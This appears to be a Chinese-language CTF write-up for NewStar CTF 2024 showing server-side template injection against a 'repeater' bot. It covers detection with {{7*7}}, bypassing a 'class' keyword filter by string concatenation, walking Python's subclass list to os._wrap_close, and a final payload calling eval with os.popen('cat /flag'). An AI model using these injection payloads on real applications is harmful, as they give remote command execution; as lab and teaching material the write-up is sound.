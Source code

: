 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 复读机

可以看到，输入什么就输出什么

输入 `{{ '{'+'{ 7*7 }'+'}' }}` 的时候，输出的结果是 49，说明存在 SSTI 注入

当输入 `{{ '{'+'{ [].__class__} '+'}' }}`

发现 bot 显示不喜欢上课,说明 `class` 被过滤了，可以使用简单的拼接绕过

```python
{{'{'+`{[]['__cl'+'ass__']}`+'}'}}
```

得到 `list` 类

![简单的 SSTI](/assets/images/wp/2024/week2/fuduji_1.png)

后面就是基本的注入方法了

获取 `object` 类

```python
{{()['__cl'+'ass__']['__base__']}}
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']}}
```

![获取 object 类](/assets/images/wp/2024/week2/fuduji_2.png)

找一个可以利用的类，这里选用 `os._wrap_close`

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__'][132]}}
```

![获取 os._wrap_close](/assets/images/wp/2024/week2/fuduji_3.png)

然后就是拿到 `eval` 方法，命令执行就行

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![命令执行](/assets/images/wp/2024/week2/fuduji_4.png)

方法很多，大家可以自己试试
